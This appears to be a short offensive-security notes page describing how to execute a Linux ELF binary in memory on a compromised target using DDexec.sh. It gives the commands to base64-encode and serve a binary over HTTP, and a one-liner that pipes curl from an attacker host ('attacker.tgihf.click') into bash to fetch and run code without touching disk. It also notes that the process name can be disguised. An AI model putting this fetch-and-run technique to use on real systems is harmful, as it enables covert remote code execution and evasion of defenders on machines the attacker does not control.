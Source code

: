 # In-Memory Execution

---

## Execute ELF without Touching Disk

[DDexec.sh](https://github.com/arget13/DDexec) can be used to execute an ELF without touching disk.

On the attacking machine, base64-encode the ELF.

```bash
$ base64 -w 0 hello-world > hello-world.b64
```

Serve `DDexec.sh` and the base64-encoded ELF you want to execute on the target via HTTP.

```bash
$ ls
DDexec.sh hello-world hello-world.b64
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

On the target:

```bash
curl $URL_TO_B64_ELF | bash <(curl $URL_TO_DDEXEC) $FILENAME $ELF_ARGS
```

- `$URL_TO_B64_ELF`
	- i.e., `http://attacker.tgihf.click/hello-world.b64`
- `$URL_TO_DDEXEC`
	- i.e., `http://attacker.tgihf.click/DDexec.sh`
- `$FILENAME`
	 - Can be anything, doesn't have to match the name of the ELF
	 - This will appear as the process name in `ps`
 - `$ELF_ARGS`
	 - Space-separated list of arguments passed to the ELF

---

## References

[YouTube - ippsec - Executing Linux Binaries Without Touching Disk - Living Off The Land with DDExec and Dirty Pipe Demo](https://www.youtube.com/watch?v=MaBurwnrI4s)
